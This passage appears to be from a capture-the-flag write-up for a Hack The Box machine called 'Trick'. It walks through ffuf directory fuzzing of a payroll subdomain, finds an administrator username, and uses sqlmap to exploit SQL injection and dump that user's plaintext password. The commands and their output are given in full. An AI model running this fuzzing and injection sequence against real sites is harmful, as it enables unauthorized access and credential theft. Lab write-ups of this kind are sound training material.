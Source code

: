 ```bash
Received 192 bytes from 10.129.37.48#53 in 35 ms
```

----------------------
### Step 2
On `preprod-payroll.trick.htb` we find a login prompt, as seen in below picture.
![[Pasted image 20220620203513.png]]

However this seems likes it's most a front, as when fuzzing the site we get a lot of 200's.
```bash
➜  trick ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://preprod-payroll.trick.htb/FUZZ.php

ajax                    [Status: 200, Size: 0, Words: 1, Lines: 1]
db_connect              [Status: 200, Size: 0, Words: 1, Lines: 1]
department              [Status: 200, Size: 4844, Words: 244, Lines: 179]
employee                [Status: 200, Size: 2717, Words: 74, Lines: 96]
header                  [Status: 200, Size: 2548, Words: 145, Lines: 46]
home                    [Status: 200, Size: 486, Words: 180, Lines: 27]
index                   [Status: 302, Size: 9546, Words: 1453, Lines: 267]
login                   [Status: 200, Size: 5571, Words: 374, Lines: 177]
navbar                  [Status: 200, Size: 1382, Words: 68, Lines: 24]
payroll                 [Status: 200, Size: 3142, Words: 86, Lines: 111]
position                [Status: 200, Size: 5549, Words: 260, Lines: 196]
users                   [Status: 200, Size: 2197, Words: 103, Lines: 81]
```

Go to `/users.php` and we find the Administrator username, `Enemigosss`.
![[Pasted image 20220620203715.png]]

We don't have any password yet, and trying a quick spray doesn't bite. Instead we look to SQL Injection and we find something interesting. 

![[Pasted image 20220620204417.png]]

Quickly test it out with `sqlmap`:
```bash
➜  trick sqlmap -r sql-injection.txt
[... snip ...]
[20:55:21] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

➜  trick sqlmap -r sql-injection.txt -dbs
[... snip ...]
[*] information_schema
[*] payroll_db

➜  trick sqlmap -r sql-injection.txt -D payroll_db -T users -C username,password --dump
[... snip ...]
Database: payroll_db
Table: users
[1 entry]
+------------+-----------------------+
| username   | password              |
+------------+-----------------------+
| Enemigosss | SuperGucciRainbowCake |
+------------+-----------------------+
```
